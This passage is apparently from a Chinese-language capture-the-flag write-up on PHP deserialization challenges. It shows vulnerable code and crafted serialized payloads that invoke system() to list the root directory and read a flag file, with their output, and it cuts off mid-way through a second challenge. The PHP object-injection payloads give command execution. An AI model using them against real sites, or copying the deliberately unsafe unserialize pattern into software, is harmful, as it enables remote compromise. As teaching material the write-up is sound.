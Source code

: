 ```
class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;
     
     function  __destruct()
     {
        $a = $this->lt;

        $a($this->lly);
     }
    
    
}
unserialize($_POST['nss']);
highlight_file(__FILE__);
 
 
?>  
```
同样还是destruct方法，然后看到 第12行有$a($this->lly);可知可以用$a给个命令函数来构造命令
```
 <?php
class lyh{
    public $url = 'NSSCTF.com';
    public $lt="system";
    public $lly="ls /";
}
$a=new lyh;
echo serialize($a);

nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:4:"ls /";}
bin boot dev etc flag home lib lib64 media mnt opt proc root run run.sh sbin srv sys tmp usr var

 <?php
class lyh{
    public $url = 'NSSCTF.com';
    public $lt="system";
    public $lly="cat /flag";
}
$a=new lyh;
echo serialize($a);

nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:9:"cat /flag";}
NSSCTF{bbc9e848-6a63-4aab-b681-c90314d16fce}
```
3.[SWPUCTF 2022 新生赛]ez_ez_unserialize
```
 <?php
class X
{
    public $x = __FILE__;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if ($this->x !== __FILE__) {
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
```